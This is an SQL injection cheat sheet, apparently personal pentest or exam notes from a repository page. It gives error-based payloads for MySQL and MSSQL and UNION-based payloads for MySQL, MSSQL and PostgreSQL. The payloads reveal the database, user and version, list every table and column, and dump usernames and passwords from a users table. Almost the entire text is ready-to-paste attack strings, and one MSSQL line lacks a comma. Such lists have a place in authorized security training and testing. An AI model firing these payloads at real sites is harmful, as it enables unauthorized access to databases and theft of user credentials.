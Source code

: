```
##################
# 4 ERROR method #
##################
# M
#####
' OR 1 in (select * FROM information_schema.tables) --//

# S
#####
' OR 1=(SELECT * FROM master.dbo.sysdatabases) --//
```
## 2 Enum to Test
```
######
# My #
######
# current DB, USER, VERSION
' union select null, database(), user(), @@version, null, null, ... --//

# dump TABLES w/ COLUMNS (remove WHERE for all dbs)
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=database() --//

# dump Specific Table
' UNION SELECT null, username, password, description, null FROM users --//
```

```
######
# MS #
######
# current DB, USER, VERSION
' union select null, db_name(), user_name(), @@version, null, null, ... --//

# dump TABLES w/ COLUMNS (remove WEHERE for all dbs)
' union select null, table_name, column_name, table_schema null from information_schema.columns where table_schema=db_name() --//

# dump Specific Table
' UNION SELECT null, username, password, description, null FROM users --//
```

```
#####
# P #
#####
# current DB, USER, VERSION
' union select null, current_database(), current_user, version(), null, null, ... --//

# dump TABLES w/ COLUMNS (remove WHERE for all dbs)
' union select null, table_name, column_name, table_schema, null from information_schema.columns where table_schema=current_database() --//

# dump Specific Table
' UNION SELECT null, username, password, description, null FROM users --//
```
